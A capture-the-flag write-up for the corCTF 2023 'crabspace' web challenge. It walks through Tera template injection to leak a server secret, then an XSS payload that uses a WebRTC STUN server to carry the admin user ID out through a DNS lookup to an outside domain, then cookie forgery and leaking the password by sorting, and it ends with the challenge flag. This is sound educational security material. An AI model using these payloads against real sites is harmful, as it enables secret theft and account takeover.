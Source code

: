 ```yaml
---
layout: post
title: corCTF 2023 web/crabspace Writeup
tags: [ctf, ctf writeup, ctf web]
---
```


[corCTF](https://2023.cor.team/challs)  
[Event on CTFtime](https://ctftime.org/event/1928)

It was a team effort for us to solve this challenge. I learned something new about WebRTC.

## Solution summary

- SSTI in `Tera::one_off` to leak secret
- WebRTC to bypass CSP restrictions and exfiltrate admin user id
- Forge admin cookie with admin user id and secret to gain access to admin view
- Follow admin account and sort following accounts on password field to leak admin password (which is the flag)

## crabspace

- Description:
  > Now that Twitter is 🦀 gone 🦀, it's time for a new social media platform.  
    🦀🦀🦀🦀🦀🦀🦀🦀🦀🦀🦀🦀🦀🦀🦀🦀🦀🦀
- Author: Strellic

The source code is provided. I can create users, edit my "space", view other users' "space"s, and follow other users.

![crabspace](/assets/image/corctf-2023-crabspace-web-writeup/crabspace.png)

To view a user's "space", visit `/space/<user id>`, The user id is UUIDv4 generated when the user is created. The "space" content is rendered in an `iframe`, with the content in the `iframe`'s `srcdoc` attribute.

{% raw %}
```html
<iframe sandbox="allow-scripts"
srcdoc="<link rel='stylesheet' href='/public/axist.min.css' />{{ space }}" class="space"></iframe>
```
{% endraw %}

With content in `srcdoc`, it is rendered as HTML in the `iframe` even it is escaped in the template, thus we have an easy(?) XSS.

The users are defined as a struct as shown below and stored in a map.

```rust
#[derive(Debug, Serialize, Clone)]
pub struct User {
    pub id: Uuid,
    pub name: String,
    pub pass: String,
    pub following: Vec<Uuid>,
    pub followers: Vec<Uuid>,
    pub space: String,
}
```

The admin user with flag as the password, and a random ID is created on starting of the application.

The bot first logs in as admin, then visit an URL we provide.

## Finding SSTI

Initially it was not clear how we can get the flag from what is obvious. While I was on the train I read the source code twice and with the help of [documentation](https://docs.rs/tera/latest/tera/struct.Tera.html#method.one_off) I found the `one_off` function in Tera when rendering "space" page is a bit suspicious.

```rust
ctx.tera.insert(
    "space",
    &Tera::one_off(&user.space, &ctx.tera, true).unwrap_or_else(|_| user.space.clone()),
);
ctx.tera.insert("id", &id);
utils::render(tera, "space.html", ctx.tera).into_response()
```

![one_off is used in the code.](/assets/image/corctf-2023-crabspace-web-writeup/one-off.png)

The code takes the user's "space" as template and renders it. Tera templates documentation can be found at <https://tera.netlify.app/docs/#templates>.

When I printed out the template context with {% raw %}`{{ __tera_context }}`{% endraw %}, I got:

{% raw %}
```
{ "user": { "followers": [], "following": [], "id": "af787749-d532-4d37-94a6-2d6bc4201f63", "name": "lollol", "pass": "", "space": "{{ __tera_context }}" } }
```
{% endraw %}

The context includes the user struct, which includes the ID of the logged in user. However, the password is set to empty string when the context is created:

```rust
user = USERS.get(&id).map(|v| User {
    pass: "".to_string(),
    ..v.clone()
});
```

We can use SSTI to leak the secret for session cookie with {% raw %}`{{ get_env(name="SECRET") }}`{% endraw %}. With the secret and the user ID of admin, we can forge a session cookie to login as admin.

## Leak admin user ID

With the SSIT which can render the user ID and XSS, leaking the admin user ID should be easy right? However, with the very strict fetch directive CSP below, we tried including fetch API, WebSocket, meta tag and JS redirect, form and DNS prefetch, but had no luck exfiltrating the data. I could not find any endpoint on within the challenge that I could use style-src to exfiltrate the data neither.

```
default-src 'none'; style-src 'self'; script-src 'unsafe-inline'; frame-ancestors 'none'
```

I then reading through all non-fetch directives in CSP, and some research. While getting ready to go to bed, thinking about all the cases where a webpage makes request to server, WebRTC came to my mind (I have also noticed [a very new TR about WebRTC](https://www.w3.org/TR/webrtc-nv-use-cases/), which may or may not be related). As I do not know much about WebRTC, I put a message on our Discord channel before I went to bed.

The next morning, I started with some WebRTC examples. The payload is limited to only 200 characters, with some trial and error, I managed to craft a minimal payload that would do DNS request for the STUN server I specify (the payload has been modified to be more readable):

{% raw %}
```html
<script>
async function a(){
    c={iceServers:[{urls:"stun:{{user.id}}.x.cjxol.com:1337"}]}
    (p=new RTCPeerConnection(c)).createDataChannel("d")
    await p.setLocalDescription()
}
a();
</script>
```
{% endraw %}

The port does not matter, as we are exfiltrating through DNS request. The user ID is included in the hostname and sent through DNS request.

## Getting the flag

The admin account has access to admin view for each user (except admin itself). The admin view has the lists of followers and followings of the user. The lists are sorted with field specified in the URL query parameter. It is possible to sort by password field using `?sort=pass`.

We can have a main account to follow other users. We can then create a list of users with selected password, and follow them along with admin on our main account. The admin view for the main account will have the list of users sorted by password, and we can get the flag character by character. This can be scripted with preparing the whole following list and get one character each time we visit the admin view, or can script with binary search. (This is kinda pain to extract the flag, thanks to my teammate implemented the solution.)

Got the flag 🦀:

```
corctf{b3tter_name_th4n_x}
```